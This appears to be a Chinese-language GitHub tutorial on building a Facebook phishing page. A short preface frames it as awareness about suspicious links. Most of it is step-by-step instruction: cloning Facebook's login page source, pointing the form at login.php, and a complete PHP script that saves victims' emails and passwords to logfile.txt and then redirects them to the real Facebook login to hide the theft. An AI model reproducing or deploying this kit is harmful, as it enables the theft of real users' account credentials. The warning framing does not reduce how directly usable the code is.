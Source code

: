# Facebook釣魚架設     

## 前言
此教程展示主要是要告訴大家，釣魚網站製作可以很簡單，所以大家在使用網頁時，針對可疑的連結不要輕易去點，網址記得要去查看是否為正確，或是把常用的連結弄成書籤，以避免被釣魚網站竊取帳密

## 影片展示
https://www.youtube.com/watch?v=t0YWDlTCjr4

## 製作過程
### FB釣魚頁面製作(index.html)
先在真正的Facebook頁面按右鍵"檢視原始碼"

![](image/a.png)

把原始碼都複製下來

![](image/b.png)

貼在自己的index.html

然後用Ctrl+F 尋找"form"，把action後的內容改成login.php

![](image/c.PNG)

### php 後端程式編寫(login.php)
```php
<?php
$passwd = $_POST["pass"];
$account = $_POST["email"];
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
?>
<html>
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
<body>
Something goes wrong.Redirecting.......
</body>
</html>
```
```php
$passwd = $_POST["pass"];
$account = $_POST["email"];
```
以上帳號密碼的名稱可以從form表單得知
![](image/d.PNG)

以下為php語法，把前端輸入的帳號密碼寫到logfile.txt檔案裡
```php
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
```
跳轉到真正的FB頁面
```html
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
```